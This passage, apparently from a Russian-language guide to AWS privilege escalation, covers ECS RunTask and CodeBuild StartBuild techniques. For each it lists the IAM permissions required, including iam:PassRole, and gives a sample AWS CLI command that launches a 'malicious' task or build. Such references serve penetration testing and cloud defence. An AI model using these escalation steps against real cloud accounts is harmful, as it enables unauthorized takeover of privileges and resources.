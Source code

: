 #### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "ecs:RunTask",
                "ecs:DescribeTasks",
                "iam:PassRole"
            ],
            "Resource": "*"
        }
    ]
}
```

#### Метод атаки:
```bash
# Запуск ECS задачи с повышенными правами
aws ecs run-task \
    --cluster target-cluster \
    --task-definition malicious-task \
    --launch-type FARGATE \
    --network-configuration "awsvpcConfiguration={subnets=[subnet-12345],securityGroups=[sg-12345]}"
```

### 7. **CodeBuild Project Escalation**

#### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "codebuild:StartBuild",
                "codebuild:BatchGetBuilds",
                "iam:PassRole"
            ],
            "Resource": "*"
        }
    ]
}
```

#### Метод атаки:
```bash
# Запуск CodeBuild проекта для эскалации
aws codebuild start-build \
    --project-name malicious-build \
    --environment-variables-override name=ESCALATE,value=true
```

---